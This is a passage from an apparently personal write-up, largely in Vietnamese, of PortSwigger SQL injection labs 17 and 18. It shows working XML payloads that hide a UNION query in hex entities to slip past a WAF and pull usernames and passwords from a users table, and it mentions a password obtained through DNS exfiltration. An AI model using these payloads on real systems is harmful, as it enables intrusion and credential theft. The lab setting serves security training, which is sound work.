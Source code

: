 ![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/3cd32cd6-dd9c-4e6e-a3e9-df9c98a3e489)

=> password nằm ở dns poll now là 'esdwmb00nnzjq1iv4vfp'  vì sau .collab brup là select password nên => là nó

=> solve lab 17

# Lab 18: SQL injection with filter bypass via XML encoding

>  This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

> The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

> A web application firewall (WAF) will block requests that contain obvious signs of a SQL injection attack. You'll need to find a way to obfuscate your malicious query to bypass this filter. We recommend using the Hackvertor extension to do this. 

+ step 1: Recon

  - với bài này có vẻ lỗ hổng không nằm ở cookie nữa mà nằm ở chức năng stockcheck trong product id
 
  - khi ta checking với quote ' trên product và store check thì dích attack detected có lẽ bên server đang chặn lỗi và in ra detection

 ![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/b8f64102-27c2-4aa0-9634-37a4475b4569)


 => ta cần tải extension hackvertor bypass WAF filter với sql injection 

+ step 2: Exploit

  payload test :

      <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>2</productId><storeId>2 UNION select NULL </storeId></stockCheck>

=> ta bị detected ở đây, nhiệm vụ là dùng encode trong extension để bypass -> obfuscating cái payload với XML 

- sử dụng hex-entities encoding

      <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>2</productId><storeId><@hex_entities>2 UNION select NULL<@/hex_entities> </storeId></stockCheck>

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/c356b5b9-3322-49d2-a064-68dd6f41903e)

=> đã chèn được 'a'  

payload solve : 

      <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>2</productId><storeId><@hex_entities>2 union select username||': '||password from users<@/hex_entities> </storeId></stockCheck>

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/f366d345-6afe-4fd2-9a31-8f0b7c01133e)

=> solve lab 18
